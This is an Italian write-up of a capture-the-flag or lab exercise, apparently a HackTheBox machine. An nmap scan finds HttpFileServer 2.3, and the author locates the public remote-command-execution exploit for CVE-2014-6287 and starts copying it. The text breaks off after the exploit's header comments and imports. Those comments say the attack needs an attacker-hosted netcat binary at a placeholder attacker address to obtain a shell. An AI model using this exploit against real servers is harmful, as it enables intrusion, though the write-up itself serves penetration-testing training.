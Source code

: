 ![](../zzz_rev/attachments/optimun.png)

Dallo scan nmap sappiamo 
la versione di è `HttpFileServer 2.3` cerchiamo qualche vulnerabilità con google

i primi due risultati ci portano a questa vulnerabilità,

Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
https://www.exploit-db.com/exploits/39161:
Copiamo il codice e diamogli un occhiata.

```bash
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys
```